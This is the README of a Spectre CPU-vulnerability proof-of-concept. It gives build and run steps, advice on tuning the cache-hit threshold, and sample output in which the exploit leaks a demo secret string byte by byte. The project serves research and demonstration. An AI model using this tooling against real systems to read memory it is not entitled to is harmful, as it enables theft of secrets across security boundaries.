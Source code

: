 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The original source code was taken from Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run specter with the example secret string "The Magic Words are Squeamish Ossifrage." as the target, simply run `./spectre.out` with no command line arguments.

If desired, a custom target address and length can be given as the first and second command line arguments, respectively.

## Tweaking

If you're getting lackluster results, you may need to tweak the `CACHE_HIT_THRESHOLD`. This can be done by chaing the line
`#define CACHE_HIT_THRESHOLD (80)`.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on my AMD GX-412TC SOC, I required a value of 300 to get a good result.

## Example output

The following was output on an AMD GX-412TC SOC, with a `CACHE_HIT_THRESHOLD` of 300:

`./spectre.out:`

```
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfed78... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfed79... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfed7a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfed7b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfed7c... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfed7d... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfed7e... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfed7f... Unclear: 0x69=’i’ score=997 (second best: 0x75 score=979)
Reading at malicious_x = 0xffffffffffdfed80... Unclear: 0x63=’c’ score=999 (second best: 0xC2 score=975)
Reading at malicious_x = 0xffffffffffdfed81... Unclear: 0x20=’ ’ score=998 (second best: 0x15 score=977)
Reading at malicious_x = 0xffffffffffdfed82... Unclear: 0x57=’W’ score=998 (second best: 0xB8 score=972)
Reading at malicious_x = 0xffffffffffdfed83... Unclear: 0x6F=’o’ score=994 (second best: 0xC3 score=974)
Reading at malicious_x = 0xffffffffffdfed84... Unclear: 0x72=’r’ score=997 (second best: 0xFC score=972)
Reading at malicious_x = 0xffffffffffdfed85... Unclear: 0x64=’d’ score=997 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed86... Unclear: 0x73=’s’ score=997 (second best: 0x75 score=977)
Reading at malicious_x = 0xffffffffffdfed87... Unclear: 0x20=’ ’ score=998 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed88... Unclear: 0x61=’a’ score=999 (second best: 0xCE score=976)
Reading at malicious_x = 0xffffffffffdfed89... Unclear: 0x72=’r’ score=996 (second best: 0xB7 score=976)
Reading at malicious_x = 0xffffffffffdfed8a... Unclear: 0x65=’e’ score=998 (second best: 0x1B score=978)
Reading at malicious_x = 0xffffffffffdfed8b... Unclear: 0x20=’ ’ score=996 (second best: 0xC2 score=965)
Reading at malicious_x = 0xffffffffffdfed8c... Unclear: 0x53=’S’ score=995 (second best: 0x7A score=967)
Reading at malicious_x = 0xffffffffffdfed8d... Unclear: 0x71=’q’ score=996 (second best: 0x6A score=968)
Reading at malicious_x = 0xffffffffffdfed8e... Unclear: 0x75=’u’ score=999 (second best: 0xB7 score=966)
Reading at malicious_x = 0xffffffffffdfed8f... Unclear: 0x65=’e’ score=997 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed90... Unclear: 0x61=’a’ score=995 (second best: 0xA1 score=969)
Reading at malicious_x = 0xffffffffffdfed91... Unclear: 0x6D=’m’ score=995 (second best: 0x8B score=963)
Reading at malicious_x = 0xffffffffffdfed92... Unclear: 0x69=’i’ score=998 (second best: 0x1B score=966)
Reading at malicious_x = 0xffffffffffdfed93... Unclear: 0x73=’s’ score=996 (second best: 0x24 score=960)
Reading at malicious_x = 0xffffffffffdfed94... Unclear: 0x68=’h’ score=999 (second best: 0x27 score=964)
Reading at malicious_x = 0xffffffffffdfed95... Unclear: 0x20=’ ’ score=994 (second best: 0xCE score=965)
Reading at malicious_x = 0xffffffffffdfed96... Unclear: 0x4F=’O’ score=997 (second best: 0xEF score=963)
Reading at malicious_x = 0xffffffffffdfed97... Unclear: 0x73=’s’ score=993 (second best: 0x48 score=976)
Reading at malicious_x = 0xffffffffffdfed98... Unclear: 0x73=’s’ score=997 (second best: 0xB7 score=973)
Reading at malicious_x = 0xffffffffffdfed99... Unclear: 0x69=’i’ score=998 (second best: 0xC8 score=962)
Reading at malicious_x = 0xffffffffffdfed9a... Unclear: 0x66=’f’ score=994 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed9b... Unclear: 0x72=’r’ score=995 (second best: 0x3D score=968)
Reading at malicious_x = 0xffffffffffdfed9c... Unclear: 0x61=’a’ score=994 (second best: 0x48 score=971)
Reading at malicious_x = 0xffffffffffdfed9d... Unclear: 0x67=’g’ score=997 (second best: 0xFA score=972)
Reading at malicious_x = 0xffffffffffdfed9e... Unclear: 0x65=’e’ score=994 (second best: 0x59 score=959)
Reading at malicious_x = 0xffffffffffdfed9f... Unclear: 0x2E=’.’ score=995 (second best: 0x8B score=966)
```

## Contributing

Feel free to add your results to the "Results" issue. Include your `CACHE_HIT_THRESHOLD`, OS details, CPU details like vendor Id, family, model name, stepping, microcode, Mhz, and cache size. These can be found by running `uname -a` and `cat /proc/cpuinfo`.
